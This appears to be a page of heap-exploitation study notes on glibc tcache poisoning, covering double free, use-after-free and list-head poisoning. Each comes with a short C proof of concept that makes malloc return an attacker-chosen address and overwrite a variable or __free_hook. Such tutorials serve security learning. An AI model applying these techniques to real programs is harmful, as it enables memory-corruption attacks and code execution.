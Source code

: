```c
unsigned long overwrite_me = 1;
long *a = malloc(10);
free(a);
free(a);
// head = A and A->fd = A
long *b = malloc(10); // b points to a
// head = A->fd
*b = (long)&overwrite_me; // overwrite fd pointer

long *c = malloc(10); // c points to a again
// head = &overwrite_me
long *d = malloc(10); // d points to a again
// returns &overwrite_me
*d = 2; // overwrite overwrite_me
printf("overwrite_me: %lx\n", overwrite_me); // prints 2
```


### UAF

Use after free (UAF) vulnerabilities can also be exploited using tcache poisoning. When a chunk is freed, it is added to the tcache. If the chunk is later used after being freed, an attacker can manipulate the tcache to allocate memory at arbitrary locations.

Example of tcache UAF:

```c
unsigned long overwrite_me = 1;
long *a = malloc(10);
free(a);

// head = A and A->fd = NULL
*a = (long)&overwrite_me; // overwrite fd pointer
// A->fd = &overwrite_me
long *b = malloc(10); // b points to a
// head = A->fd
long *c = malloc(10); // c points to &overwrite_me
// returns &overwrite_me
*c = 2; // overwrite overwrite_me
printf("overwrite_me: %lx\n", overwrite_me); // prints 2
```

### Tcache list head poisoning

Tcache list head poisoning involves overwriting the head of the tcache list for a specific size class. This can be done by using a UAF or a negative / overflow offset write vulnerability to overwrite the head pointer of the tcache list. When a chunk of that size is allocated, it will return a chunk at the address specified in the head pointer.
Example of tcache list head poisoning with negative offset write:

```c
long int *a = malloc(20);
// ensure the count > 0
long int *b = malloc(0x390);

free(b);
set(b, -14, &__free_hook); // negative offset write to overwrite tcache head

long int *z = malloc(0x390); // z points to __free_hook
*z = hook_overwrite; // overwrite __free_hook
free(b); // trigger __free_hook
```
